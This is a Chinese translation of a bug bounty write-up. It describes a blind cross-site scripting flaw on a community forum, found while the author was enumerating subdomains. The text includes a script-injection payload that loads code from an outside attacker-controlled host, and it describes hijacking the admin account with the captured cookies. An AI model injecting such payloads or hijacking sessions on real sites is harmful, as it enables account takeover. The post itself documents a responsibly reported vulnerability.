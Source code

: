# 盲目的 XSS 完全控制价值$$$的论坛

> 原文：<https://infosecwriteups.com/blind-xss-to-full-control-of-forum-worth-badfdf2522c1?source=collection_archive---------1----------------------->

大家好。我叫图欣·博斯( [@tuhin1729](https://instagram.com/tuhin1729) )。我目前在[虚拟网络实验室](https://virtualcyberlabs.com)担任首席技术官。在这篇文章中，我将分享我在盲人 XSS 的一个发现，它帮助我赚了$$$。

所以不浪费时间，让我们开始吧:

![](img/7cb621ed8871d4c8df4afa4da51ac4d6.png)

tuhin1729

# 简介:

在列举子域时，我遇到了一个有趣的子域，比如说 community.redacted.com。基本上，这是一种论坛，redacted.com 的用户可以发表他们的疑问，也可以对其他人的疑问发表评论。但是要发表评论，需要得到 redacted.com 管理员的批准。

![](img/634ede3b956bef5231d602d9bb89e11a.png)

tuhin1729

在测试了 IDOR、SQLi 和其他漏洞之后，我决定在那里试试盲人 XSS。

# 什么是盲人 XSS？

当攻击者的输入被 web 服务器保存并在应用程序的另一部分或另一个应用程序中作为恶意脚本执行时，就会出现盲目的跨站脚本漏洞。例如，攻击者向联系/反馈页面中注入恶意有效载荷，当应用程序的管理员查看反馈条目时，攻击者的有效载荷将被加载。攻击者的输入可以在完全不同的应用程序中执行(例如，管理员查看访问日志或应用程序异常的内部应用程序)。

# 复制步骤:

我赶紧复制了我的[xs shunter](https://xsshunter.com)payload[**"><script src = https://tuh in 1729 . XSS . ht></script>**]并评论说，

![](img/e3d7fe5495d22d255e78d15cd07f06b0.png)

tuhin1729

你猜怎么着！！！在 1-2 分钟内，我收到了以下电子邮件:

![](img/ea57141e459473ca9b7186e4df5e6db5.png)

tuhin1729

嘣！我们的有效载荷被执行了！

我去了有效载荷被执行的 URL。有一个管理员登录面板。我用这些 cookies(从有效载荷中捕获的)劫持了 admin 的帐户。现在，我可以控制整个论坛了！！！

我在那里结束了我的狩猎，做了一个漂亮的 POC 并发送给他们。

30 分钟内，我得到了他们的回复:

![](img/900b2a9778945ef7ee492d937c523239.png)

tuhin1729

**时间线**:

2021 年 5 月 18 日晚上 9:23—报告了漏洞

2021 年 5 月 18 日，晚上 9:44——关闭他们的社区页面，用赏金邮件回复我

在 Twitter 上关注我:@ [tuhin1729](https://twitter.com/tuhin1729_) _

感谢阅读。我希望你喜欢这个博客。